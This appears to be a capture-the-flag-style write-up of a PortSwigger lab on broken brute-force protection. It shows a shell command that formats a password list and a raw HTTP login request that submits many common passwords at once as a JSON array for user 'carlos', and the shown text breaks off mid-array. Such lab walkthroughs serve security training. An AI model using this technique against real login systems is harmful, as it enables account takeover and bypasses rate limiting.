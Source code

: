 A hit



**Broken brute-force protection, multiple credentials per request**

From <https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request> 


Our capture logon response is in json 



We can bruteforce by inputting an array of passwords from a dictionary attack file 

```
┌──(kali㉿kali)-[~/grep]
└─$ sed -i 's/.*/"&",/' pass.txt | cat pass.txt      
"123456",
"password",
"12345678",
"qwerty",
"123456789",
"12345",
"1234",
"111111",
"1234567",
"dragon",
```


```
POST /login HTTP/2
Host: 0a37008704bb9abc8132308d00660097.web-security-academy.net
Cookie: session=9bdwFQvaZDkZbRN70aKgad4YILs32nUP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a37008704bb9abc8132308d00660097.web-security-academy.net/login
Content-Type: application/json
Content-Length: 1188
Origin: https://0a37008704bb9abc8132308d00660097.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"carlos","password":  ["123456",
"password",
"12345678",
"qwerty",
"123456789",
"12345",
"1234",
"111111",
"1234567",
"dragon",
"123123",
"baseball",
"abc123",
"football",
"monkey",
"letmein",
"shadow",
"master",
"666666",
"qwertyuiop",
```